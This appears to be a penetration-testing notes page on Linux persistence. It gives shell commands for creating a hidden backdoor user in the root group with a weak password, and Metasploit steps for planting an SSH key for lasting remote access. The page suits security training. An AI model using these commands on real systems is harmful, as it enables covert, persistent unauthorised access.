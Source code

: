 ### Persistence

- Create a backdoor user with administrative privileges that can be used to access the target system via SSH

```bash
shell
whoami
	root
cat /etc/passwd
# Create a user that looks like a service account
# and add it to "root group"
useradd -m ftp -s /bin/bash
passwd ftp
	password123
usermod -aG root ftp
usermod -u 15 ftp
groups ftp
	ftp : ftp root
```

❗ Changing user's password is a strong indicator of compromise, it should not be done.

- Perform **SSH Persistence** with a Metasploit persistence modules

```bash
exit # CTRL+C
background
```

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 4
set CREATESSHFOLDER true
run
```
